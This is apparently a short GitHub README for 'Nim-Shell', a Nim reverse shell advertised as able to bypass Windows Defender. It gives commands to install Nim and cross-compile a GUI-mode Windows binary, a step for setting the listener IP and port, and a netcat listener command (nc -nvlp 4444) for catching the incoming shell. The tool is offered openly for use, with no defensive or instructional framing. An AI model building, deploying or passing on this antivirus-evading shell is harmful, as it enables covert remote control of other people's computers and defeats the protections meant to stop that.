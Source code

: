 # Nim-Shell
Reverse shell that can bypass windows defender detection

# installation
sudo apt install nim

# Compilation
nim c -d:mingw --app:gui nimshell.nim


<img src="https://github.com/emrekybs/nim-shell/blob/main/1.png">

Change the IP address and port number you want to listen to according to your device

<img src="https://github.com/emrekybs/nim-shell/blob/main/2.png">

and listen
nc -nvlp 4444
